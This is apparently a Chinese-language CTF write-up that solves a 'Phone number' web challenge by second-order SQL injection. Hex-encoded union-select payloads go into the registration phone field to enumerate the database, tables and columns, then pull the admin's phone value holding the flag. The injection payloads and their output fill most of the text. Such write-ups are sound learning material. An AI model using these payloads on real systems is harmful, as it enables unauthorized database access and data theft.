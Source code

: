 ```yaml
---
title: "web 狗之writeup--phone"
author: Neal
description: ""
tags: [CTF, WEB]
categories: [CTF]
date: "2018-08-23"
---
```


![WechatIMG7.jpeg](https://i.loli.net/2018/08/23/5b7eb1fbdb1b1.jpeg)

鄙人不才，只能做个 web 狗了。那就好好学习 web 吧。拼命地刷 writeup 就好了。上题目，[Phone number](http://106.75.72.168:3333/login.php)。提示只有 phone number is a good thing.

打开链接可以看到是一个登陆页面，查看源代码，没有什么东西。不过，这个页面还有个注册页面，注册页面有用户名密码以及 phone，查看其源代码也没有什么异常情况。这道题初步看来应该是一道 sql 注入题了，那么注入点在哪呢？当然是 phone 了（来自于上帝视角）。

注入点的确就是 phone，不过是要使用 16进制字符。为什么呢？上帝告诉我的，我也不知道。好吧，接下来就是 sql 注入四步曲了，爆数据库名，爆表名，爆字段，最后查数据，拿到 flag。是不是很开心！

## 正常用户

首先，我们首先注册一个正常用户，注册之后登录，可以看到页面。这里面有一个 check 的按钮，点击一下，可以看到页面提示 There only 369 people use the same phone as you。查看源代码，可以看到注释里面有一句话：听说admin的电话藏着大秘密哦，这也是一个小提示。这里面的369应该就是通过 sql 语句从数据库拿到的，语句可能就是类似于 `select count(*) from user where phonenum = 12` 这种的，从而查出和你电话号码一样的用户数了，那么我可以信誓慢慢地告诉你，这就是一个注入点啦！

## 数据库名

因为 phone 可能使用的是数字，所以这是一个数字型的注入。那么，我买可以随便注册一个用户名了，首先获取数据库名的语句是 `1 and 1 = 2 union select database()`，把这个语句转化为16进制字符。将这个16进制字符串作为 phone 来进行注册，这里注意的一个点就是，前台对于 phone 的长度做了限制， `maxlength="11"`，打开开发者工具设置大一点就可以了。注册成功之后，我么就可以看到：

Hello, txt1
Your phone is 1 and 1 = 2 union select database().
Click on the link and you'll know how many people use the same phone as you.

那么我们可以继续点击 check 按钮，页面显示

There only 0 people use the same phone as you
There only webdb people use the same phone as you

这里的 webdb 很显然就是数据库名了。

## 表名

接下来就是表名，这里比较麻烦的就是注入一次，就要注册一次，而且用户名不可以重复。算了，继续吧。构造查表名的语句：`1 union select table_name from information_schema.tables where table_schema = database()`,转化为16进制字符继续注册。再继续登录，点击 check:

There only 29891 people use the same phone as you
There only user people use the same phone as you

现在可以看出表名就是 user 了。

## 字段名

同样的配方，还是同样的味道。查询语句：`1 union select column_name from information_schema.columns where table_name="user"`，点击 check，就会显示出列名：

There only 29893 people use the same phone as you
There only Host people use the same phone as you
There only User people use the same phone as you
There only Password people use the same phone as you
There only Select_priv people use the same phone as you
There only Insert_priv people use the same phone as you
There only Update_priv people use the same phone as you
There only Delete_priv people use the same phone as you
There only Create_priv people use the same phone as you
There only Drop_priv people use the same phone as you
There only Reload_priv people use the same phone as you
There only Shutdown_priv people use the same phone as you
There only Process_priv people use the same phone as you
There only File_priv people use the same phone as you
There only Grant_priv people use the same phone as you
There only References_priv people use the same phone as you
There only Index_priv people use the same phone as you
There only Alter_priv people use the same phone as you
There only Show_db_priv people use the same phone as you
There only Super_priv people use the same phone as you
There only Create_tmp_table_priv people use the same phone as you
There only Lock_tables_priv people use the same phone as you
There only Execute_priv people use the same phone as you
There only Repl_slave_priv people use the same phone as you
There only Repl_client_priv people use the same phone as you
There only Create_view_priv people use the same phone as you
There only Show_view_priv people use the same phone as you
There only Create_routine_priv people use the same phone as you
There only Alter_routine_priv people use the same phone as you
There only Create_user_priv people use the same phone as you
There only Event_priv people use the same phone as you
There only Trigger_priv people use the same phone as you
There only Create_tablespace_priv people use the same phone as you
There only ssl_type people use the same phone as you
There only ssl_cipher people use the same phone as you
There only x509_issuer people use the same phone as you
There only x509_subject people use the same phone as you
There only max_questions people use the same phone as you
There only max_updates people use the same phone as you
There only max_connections people use the same phone as you
There only max_user_connections people use the same phone as you
There only plugin people use the same phone as you
There only authentication_string people use the same phone as you
There only id people use the same phone as you
There only username people use the same phone as you
There only phone people use the same phone as you


可以看到已经出现很多列名了，我们可以看到一些比较关键的列名，比如 username 以及 phone。

## Flag

哈哈，最后一步了！Flag，马上就可以得到啦！由于之前的提示，我们可以知道 admin 的 phone 很重要，那么我们的语句就应该是，必须是：`1 union select phone from webdb.user where username = "admin"`，点击 check，显示：

There only 29894 people use the same phone as you
There only flag{6dd303b0-8fce-2396-9ad8-d9f7a72f84b0} people use the same phone as you
There only 1555555 people use the same phone as you
There only 15500956659 people use the same phone as you
There only 1 people use the same phone as you
There only 123456 people use the same phone as you
There only 111111111111111 people use the same phone as you
There only 11111111111 people use the same phone as you
There only 12345678912 people use the same phone as you
There only 111111 people use the same phone as you

哈哈，常规套路，这个 wp 除了浏览器没有使用任何第三方工具即可完成，是不是很方便。不过我的 writeup 也是站在巨人的肩膀上完成的。


